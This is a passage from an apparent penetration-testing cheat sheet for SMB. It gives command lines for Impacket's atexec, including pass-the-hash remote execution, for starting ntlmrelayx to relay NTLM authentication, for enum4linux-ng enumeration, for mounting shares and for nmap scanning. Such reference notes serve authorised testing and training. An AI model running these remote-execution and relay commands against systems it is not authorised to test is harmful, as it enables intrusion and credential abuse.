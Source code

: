     ```bash
    impacket-atexec <domain>/<username>:'<password>'@<target_ip> "command"
    impacket-atexec -hashes <LM:NT> <username>@<target_ip> "whoami"
    ```

**\[\[Impacket-NTLMRelayX Cheat Sheet]]**

*   **Start NTLMRelayX:**

    ```bash
    sudo impacket-ntlmrelayx -tf targets.txt -smb2support
    ```

#### \[\[Enum4Linux]]

*   **Enumerate via username/password:** Enumerate information from Windows and Samba systems.

    ```bash
    ./enum4linux-ng.py -A -u <username> -p <password> -d <domain_controller_ip> <target_ip>
    ```

### Other Techniques

#### Mount SMB share locally

*   **Mount SMB share locally:**

    ```bash
    sudo smbmount //<target_ip>/SHARED_FOLDER /local/folder
    ```

    ```bash
    mount -t cifs -o username=username,password=password //target_ip/shared_folder /mnt/smb
    ```

#### GUI Connection from Linux

*   **GUI Connection from Linux:**

    ```bash
    xdg-open smb://<target_ip>/
    ```

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 139
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.
